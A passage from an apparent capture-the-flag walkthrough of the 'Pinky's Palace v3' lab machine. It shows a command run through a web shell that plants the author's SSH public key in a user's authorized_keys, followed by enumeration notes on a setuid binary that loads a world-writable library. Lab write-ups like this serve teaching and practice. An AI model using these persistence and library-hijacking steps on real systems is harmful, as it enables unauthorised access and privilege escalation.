 Time to get shell for `pinksec`. Let's generate a SSH keypair on my local machine and transfer the public key to `/home/pinksec/.ssh/authorized_keys` like so.

![4f3f9c7d.png](/assets/images/posts/pinkys-palace-v3-walkthrough/4f3f9c7d.png)

Execute the following command in the web shell.

```
mkdir /home/pinksec/.ssh; echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbTLpnI4gWcXU6GiD3VjMSSv6n5tEkeHvucJNpYnlRzaKnrmS9R+HEgNi5T7uNbTpI1W9YNrXWKrxpKiGkiMkZCzZw1bU0IDXUX5CgMF3TxZyrbgMZTETd3bu9T68XHU0XD8XmK+qFN8JiWRpzH3bNksPoZliRI1mhM5ucF2BguCe8d6Gki7D/KBJx4j125jrckJ8BEttmVSujyJx+MA/13yPpDz4M9Rx2OH68xmeWET5ZgmDeGFQLqDFYiB+let9t3jZEetEdd+VpdbSK8wrac6X1QcDH436Fp3hiDNOgjHF4P0LDK1GUuxrGxBDHz6InIueI5KNsvxlDlWDZFKU3 > /home/pinksec/.ssh/authorized_keys
```

Now, SSH into `pinksec`'s account.

![f81a29d7.png](/assets/images/posts/pinkys-palace-v3-walkthrough/f81a29d7.png)

During enumeration of `pinksec`'s account, I found the following:

+ `/home/pinksec/pinksecd` is `setuid` to `pinksecmanagement`
+ `/home/pinksec/pinksecd` loads a library at `/lib/libpinksec.so`
+ `/lib/libpinksec.so` is world-writable
